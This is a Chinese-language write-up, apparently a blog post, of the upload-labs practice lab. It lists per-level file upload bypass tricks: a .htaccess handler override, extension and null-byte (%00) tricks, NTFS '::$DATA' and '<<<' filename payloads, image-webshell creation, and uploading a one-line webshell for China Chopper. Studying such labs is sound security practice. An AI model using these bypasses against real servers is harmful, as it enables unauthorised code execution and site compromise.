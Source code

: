 ```yaml
---
title: 
date: 2018-6-5 8:50:30
tags: Web安全
toc: true
---
```


> link https://github.com/c0ny1/upload-labs

## Pass-04
---
首先上传 .htaccess 文件，文件内容, 这里```</FilesMatch>```闭合标签必须换行，不能挨着```SetHandler application/x-httpd-php```
```
<FilesMatch "ht"> 
SetHandler application/x-httpd-php
</FilesMatch>
```
win10 创建 .htaccess 文件，名字不能为空，可以在文本里另存为，名字 ".htaccess" 用引号裹起来.

再上传 名字有 ht 的文件，比如 ht，内容为一句话马，c刀连接即可。

## Pass-05
---
大小写

## Pass-06
---
```
Content-Disposition: form-data; name="upload_file"; filename="1.php "
```
文件命名加空格

## Pass-07
---
文件名最后加点.

## Pass-08
---
文件名加 ```::$DATA```

## Pass-09
---
文件名为 1.php. . 两点之间有空格

## Pass-10
---
文件名为 pphphp

## Pass-11
---
需要关闭 magic_quotes_gpc

请求行改为

POST /upload-labs/Pass-11/index.php?save_path=../upload/1.php%00 HTTP/1.1

文件名 

Content-Disposition: form-data; name="upload_file"; filename="1.jpg"

## Pass-12
---
这个在 12.php 后加空格用 burp 在 post data hex 中把 20 改为 00
```
Content-Disposition: form-data; name="save_path"

../upload/12.php
--------------------------
Content-Disposition: form-data; name="upload_file"; filename="1.jpg"
```

## Pass-13
---
copy  2.png/b + 1.txt 3.png 生成图片马，图片位置和 txt 位置必须先图片后 txt, 在实战中，上传路径得抓包或直接F12,配合着解析漏洞或 htaccess 等解析

## Pass-17
---
上传名字改为

Content-Disposition: form-data; name="upload_file"; filename="1.php:.jpg"

上传一个空文件 1.php

再上传名字改为 ```1.<<< ```

```
Content-Disposition: form-data; name="upload_file"; filename="1.<<<"
```

其中 < 代表 * 任意字符，且可以覆盖文件内容

## Pass-18
---
同上

## 总结
---
一般上传突破方法[https://tom0li.github.io/bypass-upload/](https://tom0li.github.io/bypass-upload/)

其他思路是上传 html 类文件导致 xss csrf 的利用，doc 等 win office 的 RCE , 配合包含漏洞，解析问题，php_cgi, htaccess 解析 , [上传gif文件并用src属性引用导致的xss](https://tom0li.github.io/upload-xss/)
